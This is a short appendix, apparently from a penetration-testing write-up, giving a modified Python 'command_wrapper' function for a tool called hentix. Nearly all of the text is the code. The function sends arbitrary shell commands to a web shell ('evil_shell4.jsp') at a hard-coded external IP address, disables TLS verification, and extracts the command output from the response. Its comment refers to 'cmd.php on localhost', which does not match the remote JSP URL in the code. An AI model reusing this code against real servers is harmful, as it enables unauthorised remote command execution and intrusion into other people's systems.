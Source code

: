 # Appendix - Modifications to hentix

The modified command_wrapper function in hentix.py is below:

```python
def command_wrapper(cmd):
    #
    #   Exampe command injection against cmd.php on localhost.
    #   cmd is passed through cmd URL pamameter
    #
    p = {'cmd': cmd}
    url = "https://13.54.255.86/evil_shell4.jsp"
    requests.packages.urllib3.disable_warnings()
    r = requests.get(url, params=p, verify=False)
    start = r.text.find("<pre>") + 5
    end = r.text.find("</pre>")
    return r.text[start:end]
```